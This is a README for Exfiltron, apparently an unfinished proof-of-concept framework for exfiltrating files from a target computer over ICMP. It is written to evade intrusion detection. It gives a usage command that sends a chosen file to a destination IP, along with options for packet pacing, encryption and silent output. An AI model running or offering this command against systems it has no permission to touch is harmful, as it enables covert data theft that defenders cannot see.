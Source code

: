 # Exfiltron
Data Exfiltration Framework 

!!!! Please be aware that is project is in progress and may have parts missing
!!!!

## What does it do?
This framework is meant as a proof of concept for exfiltrating data 
from a target computer. YOU SHOULD NOT USE THIS ON ANYTHING YOU DO 
NOT OWN OR HAVE EXPLICIT PERMISSION TO USE IT ON. Exfiltron is meant to 
evade IDS in order to get data back to you.

## Things you must have before extraction time
* You must have [python2.7+](https://www.python.org) installed on both the
server and the client side
* You must have [scapy](www.secdev.org/projects/scapy) ([download](scapy.net))
installed on both the server and the client side
    * If you wish to encrypt your file before sending it out, make sure you have
the [cryptography](https://cryptography.io/en/latest) python package which
should be installed when you install scapy

## Sounds great! How do I try it out?
First, get it on your local machine. There are two major files: the client
file (exfiltron.py) and the server file. The client file must be placed on
a target machine along with any modules you wish to use for your extraction
method. SET UP THE SERVER SIDE INFORMATION HERE. After exfiltron.py has
been placed on the target machine, run the following command on the target:

`python exfiltron.py exfiltrationMethod -f filename -d destinationIP [-aehiqt]`

* -h is help
* -a (--data-per-packet) is the amount of data you want to fit into each packet.
The default is the number of bytes that normally sit in that packet while the
min amount is 1 byte and the max amount is the MTU minus the headers and trailers
on the packet. The amount should be specified after the option (ex. -a 64)
* -t (--time) specifies the amount of time to wait between after sending a packet
before sending another packet. This numerical value should be given in terms of
seconds. If no value is explicitly set, exfiltron defaults the value to 5 seconds
* -q (--quiet) By default, a progress bar is shown displaying
numPacketsSent/numTotalPacketsToSend. This option silences any output relating
to the progress bar
* -e (--encrypt) Setting this flag will result in your data being encrypted 
with AES-256 using CTR mode. Please note that this should only be used if the
attacker executes exfiltron.py through a secure channel
* -i (--integrity-check) Using a hashing algorithm that is picked by the user,
Exfiltron hashes the chosen file and sends, as the first packet, the resulting
hash. After receiving all of the files, the attacker's side then pieces the
files back together and runs the same hash again and compares the two (NOT YET
IMPLEMENTED)

## Methods of Exfiltration
Currently, the following methods of exfiltration are available/in progress:
* ICMP

#### Original Authors
* Adam Sowden
* Andrew Steiner
* Thomas Daniels

